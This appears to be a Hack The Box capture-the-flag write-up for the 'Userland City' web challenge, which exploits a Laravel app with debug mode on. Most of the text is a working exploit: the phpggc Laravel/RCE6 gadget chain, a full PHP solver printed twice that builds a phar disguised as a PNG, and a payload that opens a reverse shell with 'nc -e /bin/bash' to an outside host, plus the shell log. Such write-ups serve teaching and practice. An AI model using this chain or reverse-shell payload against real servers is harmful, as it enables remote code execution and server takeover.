

# [__👤 Userland City 👤__](#userland-city)

### Description
* Our latest brief is to target the underground darknet markets, the new target is a referral-only market called Userland City. After a string of ops intercepting traffic in TOR exit nodes, we managed to obtain a verified vendor's account that goes by the name of lxkid. We're ready for stage "Downfall", Europol has provided us with key software components to capture cleartext credentials from all marketplace users, spyware to deliver through key accounts operating with downloadable deliveries, and help us remove the existing image database including the metadata removal tool. Old IRC logs from one of those devs suggest that the marketplace is built on top of the latest Laravel version and debug mode is enabled. The credentials of the vendor's account are lxkid02:8rsNN9ohfLp69cVRFEgk4Qzs

### Flag
* `HTB{p0p..p0p..p0p..th0s3_ch41ns_0n_th3_w4y_t0_pr1s0n}`

### Difficulty
* `hard`

### Objective
* phar deserialization leading to RCE through Laravel POP chain

### Challenge

# [__🧭 Reconnaissance 🧭__](#)

<p align="center">
    
</p>

When we go over the products tab, we get the list of products that have been submitted by the vendor, a link to view the direct link of the listed product's image and confirmation on whether the listed product it has been published to the marketplace itself.

<p align="center">
    
</p>

The about tab contains instructions on how packages should be delivered and received by vendors/customers, we also see some messages posted by the admin and some vendors. We confirm that this is not a user interaction related challenge since in one of the updates the administrator says that he's on leave for 2 weeks.

<p align="center">
    
</p>

# [__📷 Say, "POP Chain"! 📷__](#)

When we fuzz around with the filename argument on the `/products/image` path looking for LFI, we come across the `Ignition` error page once a `HttpException` is raised which can be done in a number of ways and methods.

<p align="center">
    
</p>

Through the disclosed code in the stack frames, we can confirm that file related operations are perform on images that can trigger a phar deserialisation through `ProductsController`'s `getImage` method.

```php
class ProductsController extends Controller
{
    public function index()
    {
        $products = Auth::user()->products;
        return view('products.index', ['products' => $products]);
    }

    public function add()
    {
        return view('products.new', ['categories' => ProductCategory::all()]);
    }

    public function store(AddProductRequest $request)
    {
        chdir('storage/images');
        $image = $request->file('image');
        File::copy($image, $image->hashName());

        Product::create([
            'user_id'       => $request->user()->id,
            'title'         => $request->input('name'),
            'category_id'   => $request->input('category'),
            'description'   => $request->input('description'),
            'image'         => $image->hashName(),
            'price'         => $request->input('price'),
            'is_published'  => false
        ]);

        return redirect('/products');
    }

    public function show(Product $product)
    {
        if (!$product->is_published) return abort(403);
        return view('products.show', ['product' => $product]);
    }

    public function getImage(string $filename)
    {
        chdir('storage/images');
        if (!File::exists($filename))
        {
            return abort(404);
        }

        if (!Str::startsWith(File::mimeType($filename), 'image/'))
        {
            return abort(400);
        }

        return response()->file($filename);
    }
}
```
 Since debug mode is enabled we presume that `Mockery` is installed and we can use a [POP chain to perform RCE](https://github.com/ambionics/phpggc/blob/master/gadgetchains/Laravel/RCE/6/gadgets.php).

```php
O:29:"Illuminate\Support\MessageBag":2:{
    s:11:"*messages";
    a:0:{}
    s:9:"*format";
    O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{
        s:9:"*events";
        O:25:"Illuminate\Bus\Dispatcher":1:{
            s:16:"*queueResolver";
            a:2:{
                i:0;
                O:25:"Mockery\Loader\EvalLoader":0:{}
                i:1;
                s:4:"load";
            }
        }
        s:8:"*event";
        O:38:"Illuminate\Broadcasting\BroadcastEvent":1:{
            s:10:"connection";
            O:32:"Mockery\Generator\MockDefinition":2:{
                s:9:"*config";
                O:35:"Mockery\Generator\MockConfiguration":1:{
                    s:7:"*name";
                    s:7:"abcdefg";
                }
                s:7:"*code";
                s:35:"<?php echo 'hello world'; exit; ?>";
            }
        }
    }
}
```


The outer object is a `Illuminate\Support\MessageBag` containing a `Illuminate\Broadcasting\PendingBroadcast`. The `PendingBroadcast` class has a destructor that will be automatically called during deserialisation.

```php
// class: Illuminate/Broadcasting/PendingBroadcast
public function __destruct()
{
    $this->events->dispatch($this->event);
}
```

Go back up to the serialized payload, you’ll see it is setup so that “events” is a `\Illuminate\Bus\Dispatcher` object and “event” is a `\Illuminate\Broadcasting\BroadcastEvent` object. So in other words the dispatch function of the `Dispatcher` class will be called. That function looks like this:

```php
// class: Illuminate/Bus/Dispatcher
public function dispatch($command)
{
   if ($this->queueResolver && $this->commandShouldBeQueued($command)) {
        return $this->dispatchToQueue($command);
   }

   return $this->dispatchNow($command);
}
```

The argument `$command` is our `BroadcastEvent` object and `$this->queueResolver` is setup to be an array with a `EvalLoader` object and a string referencing its function “Load”. The if statement containing the `commandShouldBeQueued` call, will return true if `$command` is a `ShouldQueue` object. Since `BroadcastEvent` is a subclass of `ShouldQueue` we will therefore end up with a function call to `dispatchToQueue`.

```php
// class: Illuminate/Bus/Dispatcher
public function dispatchToQueue($command)

    $connection = $command->connection ?? null;
    $queue = call_user_func($this->queueResolver, $connection);

    if (! $queue instanceof Queue) {
         throw new RuntimeException('Queue resolver did not return a Queue implementation.');
    }

    if (method_exists($command, 'queue'))
         return $command->queue($queue, $command);
    }

    return $this->pushCommandToQueue($queue, $command);
}
```

On the second line there is a call to the PHP function named `call_user_func` that is used to call “variable named functions”. It is used like this:

```php
mixed call_user_func ( callable $callback [, mixed $parameter [, mixed $...]] )
```

The `$callback` will be the `EvalLoader` object and the `$parameter` will be `$command->connection`. The `MockDefinition` object contains the members code and config. The config is just a placeholder config and the code is the payload we want to execute. The `queueResolver` is setup so `call_user_func` will call `EvalLoader`’s `load` function. In that function we see how our arbitrary code that is stored inside the `MockDefinition` object gets executed.

```php
// class: Mockery/Loader/EvalLoader
public function load(MockDefinition $definition)

{
    if (class_exists($definition->getClassName(), false)) {
        return;
    }

    eval("?>" . $definition->getCode());
}
```
We see that `getCode` is used to get the member named code. The argument to eval is prepended by `“?>”` which explains why we wrap our arbitrary code in php tags. `Laravel/RCE6` is a serialized object that is carefully crafted so that an implicit call to destruct leads us down a chain of function calls:

```
--> Illuminate/Broadcasting/PendingBroadcast::__destruct()
--------> Illuminate/Bus/Dispatcher::dispatch()
--------------> Illuminate/Bus/Dispatcher::dispatchToQueue()
--------------------> call_user_func()
--------------------------> Mockery/Loader/EvalLoader::load()
--------------------------------> eval()
```

It ends in a eval call from the `EvalLoader::load` function, with our arbitrary code as the argument.

```php
<?php
namespace Illuminate\Bus {
    class Dispatcher {
        protected $queueResolver;

        function __construct()
        {
            $this->queueResolver = [new \Mockery\Loader\EvalLoader(), 'load'];
        }
    }
}

namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        protected $events;
        protected $event;

        function __construct($evilCode)
        {
            $this->events = new \Illuminate\Bus\Dispatcher();
            $this->event = new BroadcastEvent($evilCode);
        }
    }

    class BroadcastEvent {
        public $connection;

        function __construct($evilCode)
        {
            $this->connection = new \Mockery\Generator\MockDefinition($evilCode);
        }

    }
}

namespace Illuminate\Support {
        class MessageBag {
                protected $messages = [];
                protected $format;

                function __construct($inner) {
                        $this->format = $inner;
                }
        }
}

namespace Mockery\Loader {
    class EvalLoader {}
}

namespace Mockery\Generator {
    class MockDefinition {
        protected $config;
        protected $code;

        function __construct($evilCode)
        {
            $this->code = $evilCode;
            $this->config = new MockConfiguration();
        }
    }

    class MockConfiguration {
        protected $name = 'abcdefg';
    }
}


namespace{
    $code = '<?php system("nc -e /bin/bash 172.17.0.1 1339") ?>';
    $expected = new \Illuminate\Broadcasting\PendingBroadcast($code);
    $image = new \Illuminate\Support\MessageBag($expected);

    $png = file_get_contents('foo.png');

    $phar = new Phar('poc.phar', 0);
    $phar->addFromString('test.txt', 'test');
    $phar->setMetadata($image);
    $phar->setStub("${png} __HALT_COMPILER(); ?>");

    rename('poc.phar', 'payload.png');
}
```

We now head over to the products tab and click add new product, we then add our own product and upload our malicious phar package disguised as an image.

<p align="center">
    
</p>

We click view image on our added product and invoke the `phar://` scheme on that image filename and get a reverse shell.

<p align="center">
    
</p>


```
$ nc -lvnp 1338
Connection from 192.168.2.2:50287
SHELL=/bin/bash script -q /dev/null
www@ab2c32a9ce57:/www$ cat /flag*
cat flag*
HTB{p0p..p0p..p0p..th0s3_ch41ns_0n_th3_w4y_t0_pr1s0n}
```

### Solver:
```php
<?php
namespace Illuminate\Bus {
    class Dispatcher {
        protected $queueResolver;

        function __construct()
        {
            $this->queueResolver = [new \Mockery\Loader\EvalLoader(), 'load'];
        }
    }
}

namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        protected $events;
        protected $event;

        function __construct($evilCode)
        {
            $this->events = new \Illuminate\Bus\Dispatcher();
            $this->event = new BroadcastEvent($evilCode);
        }
    }

    class BroadcastEvent {
        public $connection;

        function __construct($evilCode)
        {
            $this->connection = new \Mockery\Generator\MockDefinition($evilCode);
        }

    }
}

namespace Illuminate\Support {
        class MessageBag {
                protected $messages = [];
                protected $format;

                function __construct($inner) {
                        $this->format = $inner;
                }
        }
}

namespace Mockery\Loader {
    class EvalLoader {}
}

namespace Mockery\Generator {
    class MockDefinition {
        protected $config;
        protected $code;

        function __construct($evilCode)
        {
            $this->code = $evilCode;
            $this->config = new MockConfiguration();
        }
    }

    class MockConfiguration {
        protected $name = 'abcdefg';
    }
}


namespace{
    $code = '<?php system("nc -e /bin/bash 172.17.0.1 1339") ?>';
    $expected = new \Illuminate\Broadcasting\PendingBroadcast($code);
    $image = new \Illuminate\Support\MessageBag($expected);

    $png = file_get_contents('foo.png');

    $phar = new Phar('poc.phar', 0);
    $phar->addFromString('test.txt', 'test');
    $phar->setMetadata($image);
    $phar->setStub("${png} __HALT_COMPILER(); ?>");

    rename('poc.phar', 'payload.png');
}
```
